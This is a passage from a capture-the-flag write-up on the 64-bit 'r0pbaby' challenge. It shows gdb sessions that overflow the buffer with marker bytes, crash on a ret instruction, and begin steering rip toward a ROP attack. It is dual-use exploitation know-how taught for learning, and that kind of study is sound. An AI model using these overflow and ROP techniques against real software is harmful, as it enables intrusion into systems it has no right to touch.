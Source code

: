 Well, that may be one of the easiest ways I've gotten a segfault! But the work isn't quite done. :)

## rip control

Our first goal is going to be to get control of rip (that's like eip, the instruction pointer, but on a 64-bit system). As you probably know by now, rip is the register that points to the current instruction being executed. If we move it, different code runs. The classic attack is to move eip to point at shellcode, but ROP is different. We want to carefully control rip to make sure it winds up in all the right places.

But first, let's non-carefully control it!

The program indicates that it's writing the r0p buffer to the stack, so the easiest thing to do is probably to start throwing stuff into the buffer to see what happens. I like to send a string with a series of values I'll recognize in a debugger. Since it's a 64-bit app, I send 8 "A"s, 8 "B"s, and so on. If it doesn't crash. I send more.

```

$ <strong>gdb -q ./r0pbaby</strong>
(gdb) run

[...]

: <strong>3</strong>
Enter bytes to send (max 1024): 32
<strong>AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDD</strong>
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: Bad choice.

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554eb3 in ?? ()
```

All right, it crashes at 0x0000555555554eb3. Let's take a look at what lives at the current instruction (pro-tip: "x/i $rip" or equivalent is basically always the first thing I run on any crash I'm investigating):

```

(gdb) <strong>x/i $rip</strong>
=> 0x555555554eb3:      ret
```

It's crashing while attempting to return! That generally only happens when either the stack pointer is messed up...

```

(gdb) <strong>print/x $rsp</strong>
$1 = 0x7fffffffd918
```

